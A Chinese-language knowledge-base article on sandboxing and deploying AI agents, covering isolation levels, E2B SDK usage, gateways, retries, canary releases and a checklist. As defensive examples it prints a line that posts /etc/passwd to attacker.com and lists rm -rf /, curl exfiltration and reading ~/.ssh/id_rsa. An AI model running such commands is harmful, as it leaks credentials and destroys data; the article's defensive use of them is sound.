


# 运行沙箱与部署

> **权威依据**
> ① **E2B 官方文档**（docs.e2b.dev）— 沙箱生命周期与 SDK
> ② **Claude Code 官方文档** — 权限模式与隔离
> ③ 本知识库：`Agent安全与护栏.md`、`HITL与持久化执行.md`、`Tool Calling与Tool封装.md`、`Agent成本优化.md`

## 结论

**这是两件不同的事：**

| | **沙箱** | **部署** |
|---|---|---|
| **管什么** | **代码在哪跑、能碰什么** | **Agent 怎么上线、怎么扛量** |
| **解决** | 安全隔离 | 可用性、伸缩、灰度 |
| **边界** | 一次执行 | 整个服务 |

> **一句话**：**沙箱决定"最坏能坏到哪"，部署决定"最好能好到哪"。**

**最重要的一条**：

> **只要 Agent 能执行代码或操作文件，就必须有沙箱。**
> 这不是"要不要"的问题，而是"隔离到哪一层"的问题。

## 一、为什么 Agent 必须有沙箱

### 1.1 三个必须隔离的资产

| 资产 | 被攻破的后果 |
|------|-------------|
| **宿主文件系统** | 读取密钥、源码、其他用户数据 |
| **网络** | 数据外泄、扫描内网、挖矿 |
| **计算资源** | 死循环、fork 炸弹、撑爆内存 |

### 1.2 攻击不是"可能"，而是"必然"

> **模型会生成你没预料到的代码。** 不是因为恶意，而是因为它**真的不知道**边界在哪。

**真实的高频场景**：

| 场景 | 后果 |
|------|------|
| `rm -rf /` 类操作 | 删库 |
| `while True:` 无 sleep | CPU 跑满 |
| `pip install` 任意包 | 供应链攻击 |
| `os.system("curl ...")` | 数据外泄 |
| 读取 `~/.ssh/id_rsa` | 凭据泄露 |
| 写入 `/etc/hosts` | 持久化后门 |

### 1.3 一个必须接受的前提

> **提示注入无法根治**（见 `Agent安全与护栏.md`）。
> 所以**"Agent 被骗了"必须被当成常态来设计**——沙箱就是那个"骗成功了也做不成坏事"的边界。

## 二、隔离的六个层级（从弱到强）

| 层级 | 技术 | 隔离强度 | 启动速度 | 说明 |
|------|------|----------|----------|------|
| **0** | **同进程 `exec()`** | ❌ 无 | 即时 | **绝对不要用** |
| **1** | **子进程 + seccomp** | 弱 | 毫秒 | 只防部分系统调用 |
| **2** | **容器**（namespace + cgroup） | 中 | **百毫秒** | 共享宿主内核，**逃逸风险存在** |
| **3** | **gVisor**（用户态内核） | 中高 | 百毫秒–秒 | 拦截系统调用，兼容性有损 |
| **4** | **microVM**（Firecracker 类） | **高** | **百毫秒级** | **硬件虚拟化，主流选择** |
| **5** | **独立物理机 / 独立云账号** | **最高** | 分钟 | 极端敏感场景 |

### 2.1 怎么选



**判断口诀**：

> **代码是"别人写的"，就必须假设它是恶意的。**
> 模型生成的代码 = 别人写的代码。

### 2.2 容器为什么常常"不够"

| 问题 | 说明 |
|------|------|
| **共享内核** | 内核漏洞 → 逃逸到宿主 |
| **默认 root** | 不做 `--user` 就是 root |
| **`--privileged` 陷阱** | 很多人为了跑通就加了它 |
| **挂载目录** | `-v /var/run/docker.sock` = 送掉整台机器 |

> **容器是"进程隔离"，microVM 是"机器隔离"**——安全等级不同。

## 三、五种方案对比

| 方案 | 隔离 | 冷启动 | 运维成本 | 适用 |
|------|------|--------|----------|------|
| **本机 Docker** | 中 | 百 ms | 低 | **本地开发、CI** |
| **K8s + gVisor** | 中高 | 百 ms–s | **高** | 已有 K8s 的大团队 |
| **Firecracker microVM** | 高 | 百 ms | **很高** | 大规模自建 |
| **托管沙箱**（E2B 等） | 高 | 百 ms–s | **极低** | **绝大多数团队** |
| **WASM 沙箱** | 中高 | **极快** | 中 | 纯计算、无系统调用 |

### 3.1 WASM 的特殊定位

| 优点 | 限制 |
|------|------|
| 毫秒级启动 | **没有完整 POSIX 环境** |
| 内存安全 | 不能跑原生二进制 |
| 可确定性执行 | 依赖库生态受限 |

> **适合**：纯数据计算、插件式扩展。
> **不适合**：需要 pip/npm 装包、需要文件系统的通用代码执行。

## 四、沙箱的六个必备能力

| # | 能力 | 具体要求 |
|---|------|----------|
| **1** | **文件系统隔离** | 独立根目录；**不挂载宿主敏感路径**；可写区有配额 |
| **2** | **网络控制** | **默认拒绝**或**域名白名单**；禁止访问内网段 |
| **3** | **资源限制** | CPU 核数、内存上限、磁盘配额、**执行时长上限** |
| **4** | **生命周期** | 创建 → 运行 → 超时 → 销毁；**必须有强制超时** |
| **5** | **状态持久化** | 会话内保留变量与文件；跨会话可选择快照 |
| **6** | **快照/模板** | 预装依赖，减少冷启动 |

### 4.1 第 2 条最容易被忽略

> **绝大多数"AI 写代码"的事故，不是删库，是外泄。**

```
Agent 生成：
  requests.post("https://attacker.com", data=open("/etc/passwd").read())
```

**如果没有网络白名单，这一行就能成功。**

## 五、一个真实的沙箱接口（E2B）

> 以 E2B 为例（托管沙箱的代表），理解"沙箱 API 应该长什么样"。

### 5.1 基本用法

```python
from e2b import Sandbox

sandbox = Sandbox.create()                              # 需 E2B_API_KEY

result = sandbox.commands.run('echo "Hello from E2B Sandbox!"')
print(result.stdout)

sandbox.kill()
```

```javascript
import { Sandbox } from 'e2b'

const sandbox = await Sandbox.create()
const result = await sandbox.commands.run('echo "Hello from E2B Sandbox!"')
console.log(result.stdout)
```

### 5.2 代码解释器（带状态）

```python
from e2b_code_interpreter import Sandbox

sbx = Sandbox.create()
sbx.run_code("x = 42")
result = sbx.run_code("print(x)")     # ← 42，变量跨调用保留
print(result.logs.stdout)
```

> **关键差异**：普通 `commands.run` 每次是独立进程；**代码解释器在多次调用间保留变量与内核状态**。
> 这就是"Agent 能连续调试 Jupyter 代码"的基础。

### 5.3 生命周期与超时（这里有两个坑）

**坑一：单位不一致**

| 语言 | 创建参数 | 单位 |
|------|----------|------|
| **JavaScript** | `Sandbox.create({ timeoutMs: 60_000 })` | **毫秒** |
| **Python** | `Sandbox.create(timeout=60)` | **秒** |

> **写错单位 = 沙箱 60 毫秒后就被销毁。**

**坑二：续期是"重新计时"不是"叠加"**

```python
sandbox.set_timeout(30)    # 从此刻起 30 秒，不是在原到期时间上加 30 秒
```

### 5.4 运行时长上限

| 计划 | 连续运行上限 |
|------|-------------|
| **Pro** | **24 小时** |
| **Hobby** | **1 小时** |

> **超过怎么办**：用 `pause` / `resume`——**暂停会重置运行窗口**，且沙箱完整状态（**文件系统 + 内存**）**无限期保留**，直到显式 `kill`。

> **这是"长任务"的正确姿势**：不要指望一次性开 24 小时，而是**周期续期或主动暂停恢复**。

### 5.5 默认资源

| 项 | 默认值 |
|----|--------|
| `cpuCount` | **2** |
| `memoryMB` | **512** |

> **⚠️ 512MB 很容易被 `pip install` 打爆。** 生产必须显式调大。

### 5.6 几个值得学的设计

| 设计 | 价值 |
|------|------|
| **Template（模板）** | 预装依赖，减少冷启动 |
| **`getInfo()` 返回 `state` / `startedAt` / `endAt`** | 可观测 |
| **`lifecycle.onTimeout`** | 超时后 `kill` 还是 `pause` 可配 |
| **`allowInternetAccess`** | 网络开关 |
| **`volumeMounts`** | 持久卷 |

## 六、自建 vs 托管

| | 自建 | 托管 |
|---|------|------|
| **起步成本** | 高（要搞虚拟化、快照、调度） | **极低** |
| **冷启动** | 取决于实现 | 通常已优化 |
| **单次成本** | 低（规模大时） | 中 |
| **可控性** | 高 | 中 |
| **合规** | 完全自主 | 需评估数据出境 |
| **运维负担** | **重** | 轻 |

### 6.1 决策建议

| 情况 | 选择 |
|------|------|
| 团队 < 10 人 | **托管** |
| 日均执行 < 1 万次 | **托管** |
| 有强合规要求（数据不出域） | **自建** |
| 日执行 > 百万次 | 自建可能更省 |
| 需要 GPU | 托管或自建 GPU 池 |

> **务实结论**：**先用托管跑通，把精力放在 Agent 逻辑上。**
> 自建沙箱是一个独立的平台工程，**不建议作为 MVP 的一部分**。

## 七、部署架构

### 7.1 典型形态



### 7.2 三个关键设计

| 设计 | 原因 |
|------|------|
| **Web 层无状态** | 才能水平扩展 |
| **状态外置到 DB** | 见 `HITL与持久化执行.md` |
| **LLM 调用统一走网关** | 统一限流、重试、计费、缓存、路由 |

### 7.3 为什么必须有 LLM 网关

| 收益 | 说明 |
|------|------|
| **统一限流** | 防单租户打爆全局配额 |
| **重试与降级** | 换模型、换供应商 |
| **成本归因** | 按功能/用户统计 |
| **审计** | 所有请求留痕 |
| **密钥管理** | 不散落在各服务 |

## 八、关键部署参数

| 参数 | 建议 | 说明 |
|------|------|------|
| **单任务超时** | 5–30 分钟 | 必须有 |
| **单步超时** | 30–120 秒 | 防单次卡死 |
| **最大步数** | 20–50 | 防循环 |
| **并发用户数** | 按 LLM 配额倒推 | **瓶颈通常在 LLM 侧** |
| **队列长度上限** | 有上限 + 拒绝策略 | 防雪崩 |
| **重试次数** | 2–3，**指数退避** | 超过就如实失败 |
| **单任务预算** | 硬上限 | 见 `Token统计.md` |

### 8.1 一个常被忽略的真相

> **你的并发上限，通常不是你的服务器，而是 LLM 的 RPM/TPM。**
> 所以**队列 + 限流**比"加机器"更有效。

### 8.2 重试的三个原则

| 原则 | 说明 |
|------|------|
| **区分可重试与不可重试** | 429/5xx 可重试；400/内容违规不可 |
| **指数退避 + 抖动** | 防整齐重试造成二次冲击 |
| **幂等** | 重试不能重复产生副作用 |

## 九、灰度与回滚

### 9.1 为什么 Agent 特别需要灰度

| 原因 | 说明 |
|------|------|
| **非确定性** | 同样输入不同输出，离线测不出全部问题 |
| **行为漂移** | 换模型、改提示都可能突变 |
| **成本突变** | 一次改动可能让 token 翻倍 |

### 9.2 灰度维度

| 维度 | 用法 |
|------|------|
| **按流量百分比** | 5% → 20% → 50% → 100% |
| **按用户白名单** | 内部员工先试 |
| **按任务类型** | 低风险任务先上 |
| **按模型版本** | 新模型小流量对照 |

### 9.3 必须同时盯的四个指标

```
① 质量分（judge / 人工抽样）
② 单任务成本
③ P95 延迟
④ 错误率 / 步数
```

> **只看质量不看成本**，会用 3 倍成本换 2% 提升；
> **只看成本不看质量**，会悄悄退化。

### 9.4 彩虹部署（长任务专用）

> **Anthropic 的做法**：新旧版本**同时在线**，流量逐步迁移，**避免打断运行中的 Agent**。

**为什么需要**：一个 Agent 任务可能跑 20 分钟，**不能因为发版就杀掉它**。

**实现要点**：新任务走新版本，老任务在旧版本上继续跑完。

## 十、可观测性接入

> 详见 `Agent评测与可观测性.md`。这里只列部署侧必须打通的。

| 必打通的 | 作用 |
|----------|------|
| **Trace**（一次请求一条，带 span 树） | 定位 |
| **成本指标**（按版本/租户） | 灰度对比 |
| **沙箱侧指标**（启动耗时、超时率） | 容量规划 |
| **队列指标**（深度、等待时长） | 扩容依据 |
| **告警**（成功率、P95、成本异常） | 及时止血 |

### 10.1 一个必须记录的字段：版本

> **每条 trace、每次调用都必须带"Agent 版本 / 提示版本 / 模型版本"。**
> 否则灰度出问题时**无法归因**。

## 十一、成本结构

| 组成 | 占比（典型） | 优化点 |
|------|-------------|--------|
| **LLM 调用** | **60–90%** | 见 `Agent成本优化.md` |
| 沙箱运行 | 5–20% | 短超时、复用、快照 |
| 向量库 | 5–10% | 降维、量化 |
| 计算/带宽 | 5% | 常规优化 |

> **结论**：**先把 LLM 成本管好，沙箱成本是次要的。**

### 11.1 沙箱成本的两个杠杆

| 杠杆 | 效果 |
|------|------|
| **缩短超时** | 直接减少计费时长 |
| **暂停而非销毁** | 冷启动便宜，但**暂停期间可能仍计费**（需查厂商政策） |

> **⚠️ 务必确认"暂停期间是否计费"**——各家策略不同，这是账单差异的大头。

## 十二、常见坑

| # | 坑 | 后果 | 解药 |
|---|----|------|------|
| **1** | **用 `exec()` 在本机跑模型生成的代码** | 一台机器报废 | microVM / 托管沙箱 |
| **2** | **容器加 `--privileged`** | 隔离失效 | 永不使用 |
| **3** | **挂载 `docker.sock`** | 逃逸 | 永不使用 |
| **4** | **没有网络限制** | 数据外泄 | 默认拒绝 / 白名单 |
| **5** | **超时单位写错**（秒 vs 毫秒） | 沙箱秒销毁 | 核对 SDK 文档 |
| **6** | **默认 512MB 内存** | `pip install` 就 OOM | 显式调大 |
| **7** | **没有强制超时** | 死循环烧钱 | 沙箱 + 任务双层超时 |
| **8** | **沙箱里放生产密钥** | 一次注入全丢 | 临时凭据 |
| **9** | **发版杀掉运行中任务** | 用户任务中断 | 彩虹部署 |
| **10** | **重试不区分错误类型** | 400 也重试，白烧钱 | 只重试 429/5xx |
| **11** | **trace 不带版本号** | 灰度问题无法归因 | 必带 |
| **12** | **并发按服务器算，没算 LLM 配额** | 限流雪崩 | 按 TPM/RPM 倒推 |
| **13** | **队列无上限** | 内存爆、延迟无限增长 | 有上限 + 拒绝 |
| **14** | **沙箱复用不清理** | 跨用户数据泄漏 | 一次任务一沙箱 |

## 十三、Checklist

**沙箱**
- [ ] 代码执行**不在宿主**，在 microVM 或托管沙箱
- [ ] **不用** `--privileged`、不挂 `docker.sock`
- [ ] 网络**默认拒绝**或域名白名单
- [ ] 不访问内网段
- [ ] CPU / 内存 / 磁盘有配额（**不止默认 512MB**）
- [ ] **有强制超时**（单位核对过）
- [ ] 一次任务一个沙箱（**不复用**）
- [ ] 沙箱内**无生产密钥**
- [ ] 有 `kill` 清理机制（不泄漏僵尸沙箱）

**部署**
- [ ] Web 层无状态
- [ ] 状态外置到 DB
- [ ] LLM 调用统一走网关
- [ ] 单任务 / 单步 / 总预算三层超时
- [ ] 最大步数限制
- [ ] 队列有上限与拒绝策略
- [ ] 重试指数退避 + 抖动 + 只重试可重试错误

**发布**
- [ ] 有灰度（按流量 / 用户 / 任务类型）
- [ ] 长任务用彩虹部署
- [ ] 灰度同时盯：质量、成本、延迟、错误率
- [ ] trace 带**版本号**
- [ ] 有回滚开关

## 十四、总结

**两件事的分工：**

| | 沙箱 | 部署 |
|---|------|------|
| **防什么** | 代码闯祸 | 服务倒下 |
| **关键** | **隔离层级** | **无状态 + 状态外置** |
| **最容易错** | 用容器当隔离 | 发版杀掉长任务 |

**五条最值得记住的原则**：

1. **模型生成的代码 = 别人写的代码** —— 必须假设它是恶意的
2. **容器是进程隔离，microVM 是机器隔离** —— 等级不同
3. **网络限制比文件限制更重要** —— 事故多为外泄而非删库
4. **先用托管沙箱，别自己造** —— 那是独立的平台工程
5. **长任务必须用彩虹部署** —— 不能因为发版就杀掉用户任务

> **最后一句话**：
> **沙箱不是"限制 Agent 的能力"，而是"让你敢给 Agent 更多能力"。**
> 没有沙箱的 Agent，你只能给它最小的权限；有沙箱，你才敢让它真正干活。

---

> **资料说明**
> E2B 的生命周期（Pro 24 小时 / Hobby 1 小时连续运行上限）、`pause` / `resume` 重置运行窗口且状态（**文件系统 + 内存**）无限期保留、`Sandbox.create` 的 **JS 毫秒 vs Python 秒**单位差异、`setTimeout` **重新计时**而非叠加、`getInfo()` 字段、默认 `cpuCount: 2` / `memoryMB: 512`、`Template` 概念、代码解释器 `runCode` 跨调用保留变量、`commands.run` 与 `getInfo` 示例，**依据 E2B 官方文档（docs.e2b.dev，最后更新 2026-10-30）**。
> "彩虹部署"（新旧版本同时在线、流量逐步迁移、避免打断运行中 Agent）、"按 LLM 配额倒推并发"，**依据 Anthropic 多 Agent 研究系统原文的工程挑战部分**。
> 沙箱权限模式、隔离要求，结合 **Claude Code 官方文档的权限模型**与 **OWASP LLM 风险**。
>
> **重要限制**：
> - ⚠️ **E2B 并未在其文档首页或 lifecycle 页确认使用 Firecracker**，仅称"isolated Linux VM"。本文第二章的隔离层级划分（容器 / gVisor / microVM）是**通用技术分类**，**未核实 E2B 的实际实现**。
> - ⚠️ **各方案的冷启动时间（百毫秒级等）为量级估计**，未实测，且高度依赖具体实现与配置。
> - ⚠️ **"暂停期间是否计费"未核实**，这是账单差异的大头，**使用前必须查厂商计费政策**。
> - **托管沙箱产品的对比未展开**（仅以 E2B 为例说明 API 形态），其他厂商（Daytona、Modal、云厂商沙箱等）未涉及。
> - **部署架构图为示意**，非任何产品的实际架构。
> - 第八章参数区间（超时 5–30 分钟、步数 20–50 等）为**工程经验值**，非官方标准。
> - 所有引文为**中文意译**，非逐字直译。
